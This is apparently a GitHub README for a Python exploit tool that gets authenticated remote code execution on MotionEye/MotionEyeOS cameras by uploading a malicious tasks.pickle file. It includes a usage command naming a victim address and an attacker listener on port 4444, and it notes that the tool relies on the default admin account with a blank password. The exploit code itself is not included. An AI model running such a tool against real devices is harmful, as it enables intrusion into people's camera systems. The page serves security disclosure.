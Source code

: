 # MotionEye/MotionEyeOS Authenticated RCE
A Python 3 script that uploads a tasks.pickle file that enables RCE in MotionEye

Example:

main.py --victim 192.168.1.2 --attacker 192.168.1.3:4444

Where victim and attacker are in the form of ip:port, unless it is port 80. Then, the port can be excluded. This uses the default username of admin with a blank password. There are also CLI options for alternate usernames/passwords. Please see the code for more details. 

See https://www.pizzapower.me/2021/10/09/self-hosted-security-part-1-motioneye/ for more information. 
